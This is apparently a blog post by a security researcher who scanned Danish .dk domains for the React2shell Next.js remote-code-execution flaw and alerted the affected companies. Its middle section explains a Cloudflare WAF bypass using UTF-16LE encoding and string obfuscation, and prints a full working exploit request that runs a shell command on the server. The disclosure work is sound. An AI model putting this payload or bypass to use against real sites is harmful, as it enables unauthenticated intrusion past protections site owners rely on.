


Yesterday — Sunday evening — was spent alerting Danish companies that they were vulnerable to **React2shell** (`CVE-2025-55182` and `CVE-2025-66478`), a recently dropped CVSS 10.0 vulnerability affecting a large portion of websites on the internet, with observed active exploitation already in the wild ([react2shell.com](https://react2shell.com/)).

What does this mean in practice? It means that if your webpage is vulnerable, then there is a decent chance that your site has been, or soon will be, compromised. I am not trying to paint a scary scenario for hype — the scripts to obtain remote code execution on a vulnerable site are already out there, and they are being used.

I have been talking a lot lately about the security of Danish companies and the struggles of getting in touch with them about security issues (see my [security.txt analysis](/posts/securitytxt/) and the [SKAT path traversal post](/posts/skat-upload/)). Yesterday was no different. I had scanned all `.dk` domains plus some extras and spent the whole evening alerting companies on their public contact mails, to security teams directly on LinkedIn, and in some cases on Facebook Messenger. The response was positive, so that was nice :-)

### What is React2shell?

React2shell is the nickname for a vulnerability chain in Next.js's server actions that, in a fairly common configuration, allows an unauthenticated remote attacker to obtain **remote code execution** on the host. The two CVEs that make up the chain are tracked as `CVE-2025-55182` and `CVE-2025-66478`, and together they earned a CVSS 10.0 rating. There is a published advisory and a working PoC, and the fix has been out for a little while now — but as always, *patched upstream* is not the same as *patched on the site you actually visit*.

its... bad. The kind of vulnerability you want to know about *before* the weekend, not during it.

### Narrowing down which Danish sites are even Next.js

Before aggressively scanning all `.dk` domains I did a sweep of my ~1.3 million `.dk` domain list (the same unofficial list from [wallnot.dk](https://wallnot.dk/dotdk/) that I used in my `security.txt` post) to identify servers running Next.js. `httpx` makes this kind of thing one command:

```text
httpx -l dk_domains.txt -path / -follow-redirects -silent -no-color -mr "(?i)_next" -o dk_next_hits.txt
```

`-mr` matches the response body against the given regex, so any site shipping the standard Next.js `_next/...` asset paths in its HTML gets flagged. Next.js is fairly chatty about itself in headers and build IDs, so this narrows things down to a manageable candidate list quickly.

### Building the scanner

For the actual vulnerability check I used [Assetnote's react2shell-scanner](https://github.com/assetnote/react2shell-scanner) as the base, with a handful of changes layered on top. The general flow is two-stage:

1. Fire a *safe* probe (no real RCE payload, just the marker request) against each candidate
2. For anything that reflects the expected response, fire the actual payload to confirm

Step 1 is a bit of a hassle since  **Cloudflare ate the original payload alive** on a meaningful chunk of the targets.

### Bypassing Cloudflare

A lot of the affected sites sit behind Cloudflare's managed ruleset, which has a signature for the React2shell payload pattern. The vanilla scanner would get a clean `403` from Cloudflare on every Cloudflare-fronted site, which is useless for telling vulnerable apart from patched.

The WAF bypass I built on top of the scanner was based on this great X post from [@phithon_xg](https://x.com/phithon_xg/status/1997005756013728204):



The core trick is encoding parts of the multipart body as **UTF-16LE** instead of UTF-8. Cloudflare's signature engine reads multipart fields as UTF-8 by default, so if you set `charset=utf-16le` on the relevant parts, the engine sees byte-soup while the application sees a perfectly valid payload (because the app asks Node to decode it according to the declared charset). Beautiful.

Adapting this into the Assetnote scanner ended up being a handful of focused changes:

- **The multipart payload is hand-built now** (`scanner.py:101`). The original used `requests`' built-in `files=` plumbing, which fights you on charsets. I rebuilt both the safe probe and the RCE payload as raw multipart bytes so I could attach `charset=utf-16le` to exactly the fields that needed it.
- **The exploit chain is split across multipart fields** (`scanner.py:160`). The original PoC put the whole thing inline as `$1:constructor:constructor`-style references in a single JSON blob. Cloudflare's rule fires on that inline form. Instead, the JSON now references `$3`, and the constructor gadget lives in a separate UTF-16LE multipart part. Same effect, totally different bytes on the wire.
- **The command string is lightly obfuscated** (`scanner.py:154`). Cloudflare flags the literal `execSync`, so the payload builds the function name at runtime as `"ex" + "e" + "cSync"`. Yes, it is that dumb. Yes, it works.

The final payload looks like the following:
```
POST / HTTP/2
Host: any-dk-host.dk
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Next-Action: x
X-Nextjs-Request-Id: b5dce965
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx8jO2oVc6SWP3Sad
X-Nextjs-Html-Request-Id: SSTMXm7OJ_g0Ncx6jpQt9
Content-Length: 1315

------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="0"
Content-Type: text/plain; charset=utf-16le

{\0"\0t\0h\0e\0n\0"\0:\0"\0$\01\0:\0_\0_\0p\0r\0o\0t\0o\0_\0_\0:\0t\0h\0e\0n\0"\0,\0"\0s\0t\0a\0t\0u\0s\0"\0:\0"\0r\0e\0s\0o\0l\0v\0e\0d\0_\0m\0o\0d\0e\0l\0"\0,\0"\0r\0e\0a\0s\0o\0n\0"\0:\0-\01\0,\0"\0v\0a\0l\0u\0e\0"\0:\0"\0{\0\\0"\0t\0h\0e\0n\0\\0"\0:\0\\0"\0$\0B\01\03\03\07\0\\0"\0}\0"\0,\0"\0_\0r\0e\0s\0p\0o\0n\0s\0e\0"\0:\0{\0"\0_\0p\0r\0e\0f\0i\0x\0"\0:\0"\0v\0a\0r\0 \0r\0e\0s\0=\0p\0r\0o\0c\0e\0s\0s\0.\0m\0a\0i\0n\0M\0o\0d\0u\0l\0e\0.\0r\0e\0q\0u\0i\0r\0e\0(\0'\0c\0h\0i\0l\0d\0_\0p\0r\0o\0c\0e\0s\0s\0'\0)\0[\0'\0e\0x\0'\0+\0'\0e\0'\0+\0'\0c\0S\0y\0n\0c\0'\0]\0(\0'\0u\0n\0a\0m\0e\0 \0-\0a\0'\0,\0{\0e\0n\0c\0o\0d\0i\0n\0g\0:\0'\0u\0t\0f\0-\08\0'\0}\0)\0.\0t\0o\0S\0t\0r\0i\0n\0g\0(\0)\0.\0t\0r\0i\0m\0(\0)\0;\0;\0t\0h\0r\0o\0w\0 \0O\0b\0j\0e\0c\0t\0.\0a\0s\0s\0i\0g\0n\0(\0n\0e\0w\0 \0E\0r\0r\0o\0r\0(\0'\0N\0E\0X\0T\0_\0R\0E\0D\0I\0R\0E\0C\0T\0'\0)\0,\0{\0d\0i\0g\0e\0s\0t\0:\0`\0N\0E\0X\0T\0_\0R\0E\0D\0I\0R\0E\0C\0T\0;\0p\0u\0s\0h\0;\0/\0l\0o\0g\0i\0n\0?\0x\0=\0$\0{\0r\0e\0s\0}\0;\03\00\07\0;\0`\0}\0)\0;\0"\0,\0"\0_\0c\0h\0u\0n\0k\0s\0"\0:\0"\0$\0Q\02\0"\0,\0"\0_\0f\0o\0r\0m\0D\0a\0t\0a\0"\0:\0{\0"\0g\0e\0t\0"\0:\0"\0$\03\0"\0}\0}\0}\0
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="1"

"$@0"
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="2"

[]
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="3"
Content-Type: text/plain; charset=utf-16le

"\0$\01\0:\0c\0o\0n\0s\0t\0r\0u\0c\0t\0o\0r\0:\0c\0o\0n\0s\0t\0r\0u\0c\0t\0o\0r\0"\0
------WebKitFormBoundaryx8jO2oVc6SWP3Sad--
```

Combined, these moves got me a clean reflection back from a meaningful fraction of the Cloudflare-fronted targets, which is what I needed in order to actually identify *vulnerable* vs. *patched-or-protected*.

### What I found

After the full sweep, this is the rough picture (with company names redacted — the disclosure is the point, not the shaming):



I am not going to name names here. A few were companies I think most Danes would recognise. The rest were a long tail of smaller sites where the founder's personal LinkedIn turned out to be the fastest contact channel.

### Alerting companies

This part was honestly more work than the technical bit. As I have written about before in my `security.txt` post: most Danish companies do not have a well-defined disclosure channel, so you end up doing detective work just to figure out *who to email* in the first place.

For each vulnerable site I tried, in order:

1. `security.txt` at `/security.txt` and `/.well-known/security.txt`
2. `security@`, `it-security@`, `disclosure@` mail aliases
3. LinkedIn — looking for someone with "Security", "DevOps" or "CTO" in their title at the company
4. As a last resort, the company's public Facebook Messenger or generic contact form

A surprising number of contacts came through LinkedIn within a couple of hours, with several people thanking me on Sunday evening and confirming a patch was being rolled out the same night. A few even chased me for the technical details so they could verify the fix, this is exactly the response you *want* to see. Hats off to those teams :-)

A smaller number never responded, and a couple of contact forms returned generic *we will get back to you* autoreplies. Oh well..

### Outro

If you are running Next.js: patch. If you are *operating* something on Next.js without knowing it: find out, then patch. The exploit is trivially weaponisable and is being used right now — this is not the kind of vulnerability you let sit over the weekend.

And if you are a Danish company, please — please — add a `security.txt`. It is a 30-minute job and it makes the whole alerting flow above considerably less painful for everyone involved. Right now the path from *I found a critical vuln on your site* to *I have actually told the right person at your company* is way too long, way too often.

